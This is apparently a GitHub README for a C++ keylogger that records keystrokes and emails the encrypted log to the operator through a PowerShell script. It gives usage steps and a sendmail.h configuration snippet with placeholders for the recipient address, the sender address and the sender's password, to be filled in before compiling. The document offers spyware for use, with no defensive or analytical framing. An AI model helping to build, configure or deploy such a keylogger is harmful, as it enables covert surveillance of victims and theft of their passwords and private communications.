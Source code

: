 # Keylogger written in C++ that captures keystrokes and sends data to you through email

## Usage
  ### Edit following lines in sendmail.h to your info and then compile to executable 


```sh

#define SCRIPT_NAME "[powershell_name].ps1"

//sendmail.h uses powershell to send an email detailing the keystrokes recorded within the time frame
//by attaching the encrypted .log file to the email
namespace Mail
{
    #define X_EM_TO "[recipient email address]"
    #define X_EM_FROM "[sender email address]"
    #define X_EM_PASS "[sender email password]"
...

}

```

#### It will send all captured data to specified email address
